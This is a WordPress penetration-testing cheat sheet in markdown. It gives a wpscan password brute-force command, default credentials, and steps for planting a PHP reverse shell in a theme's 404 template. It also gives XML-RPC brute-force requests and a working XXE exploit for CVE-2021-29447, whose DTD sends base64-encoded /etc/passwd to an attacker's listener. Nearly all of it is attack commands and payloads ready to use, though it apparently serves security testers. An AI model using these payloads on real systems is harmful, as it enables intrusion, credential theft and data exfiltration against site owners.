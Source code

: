 ```yaml
---
title: WordPress Pentesting
desc: 
tags: [CMS, Web, WordPress, Wpscan]
alts: []
render_with_liquid: false
---
```


## Automation

**[Wpscan](https://github.com/wpscanteam/wpscan){:target="_blank"}** is a WordPress security scanner which can brute force credentials.

```sh
# --rua: random user agent
# --http-auth username:password
# -e: enumerate
#  ap: All plugins
#  at: All themes
#  tt: Timthumbs
#  cb: Config backups
#  dbe: Db exports
#  u: User IDs range
#  m: Media IDs range
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url https://vulnerable.com -P /usr/share/wordlists/rockyou.txt

# Specifify username (-U)
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url https://vulnerable.com -U username -P /usr/share/wordlists/rockyou.txt
```

<br />

## Get WordPress Version

```html
<meta name="generator" content="WordPress x.x.x" />
```

<br />

## Common Directories

```sh
/author/admin/
/index.php/author/admin/
/license.txt
/readme.html
/robots.txt

/wp-admin/
/wp-admin/admin-ajax.php
/wp-admin/upload.php
/wp-content/
/wp-content/uploads/
/wp-includes/

# Private/Draft Posts (WordPress <= 5.2.3) 
/?static=1
```

<br />

## Try to Login with Default Credential

Access to **/wp-login.php** and use the default credential in the login form.

```
admin:password
```

<br />

## PHP Reverse Shell Injection

It's required the **"admin" credentials.**

```
1. Access to dashboard (/wp-admin/).
2. Move to "Appearance" and select theme named "Twenty Seventeen".
3. Click "Theme Editor" or "Editor" in the "Appearance" section.
4. In the theme editor, click "404 Template (404.php)" on the right.
5. Copy and paste the code for Reverse Shell (https://github.com/pentestmonkey/php-reverse-shell).
6. Edit "IP" and "Port" in the code.
7. In your terminal, run 'nc -lvnp <IP>'.
8. Browse https://vulnerable.com/wp-content/themes/twentyseventeen/404.php
```

<br />

## XML-RPC (xmlrpc.php)

- **Get All Methods**

    ```xml
    POST /xmlrpc.php HTTP/1.1
    Host: vulnerable.com
    ...

    <?xml version="1.0" encoding="utf-8"?> 
    <methodCall> 
    <methodName>system.listMethods</methodName> 
    <params></params> 
    </methodCall>
    ```

- **Ping Back**

    Use **[PostBin](https://www.toptal.com/developers/postbin/){:target="_blank"}** to confirm the results.

    ```xml
    POST /xmlrpc.php HTTP/1.1
    Host: vulnerable.com
    ...

    <?xml version="1.0" encoding="utf-8"?>
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params>
    <param><value><string>https://www.toptal.com/developers/postbin/xxxxxxxxxxxxx-xxxxxxxxxxxxx</string></value></param>
    <param><value><string>http://vulnerable.com</string></value></param>
    </params>
    </methodCall>
    ```

- **User Enumeration**

    It’s recommended to use Burp Intruder or Turbo Intruder for brute forcing username/password.

    ```xml
    POST /xmlrpc.php HTTP/1.1
    Host: vulnerable.com
    ...

    <?xml version="1.0" encoding="utf-8"?> 
    <methodCall> 
    <methodName>wp.getUsersBlogs</methodName> 
    <params>
    <param><value>{username}</value></param>
    <param><value>{password}</value></param>
    </params> 
    </methodCall>
    ```

<br />

## XXE (CVE-2021-29447)

If you have a normal user credential, upload the exploitable media (.WAV) with XXE and reveal sensitive information.  
First off, create **"exploit.wav"**.

```sh
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://<local-ip>:9001/exploit.dtd'"'"'>%remote;%init;%trick;] >\x00'> exploit.wav```
```

Next create **"exploit.dtd"**.

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://<local-ip>:9001/?p=%file;'>"
```

Then start PHP server in local machine.

```sh
php -S 0.0.0.0:9001
```

In target website, login as normal user and go to **"Media"**, click **"Add New"**.  
Upload the **"exploit.wav"**.  
After that, open the WAV file. You should see the information is revealed in your console. Decode it.
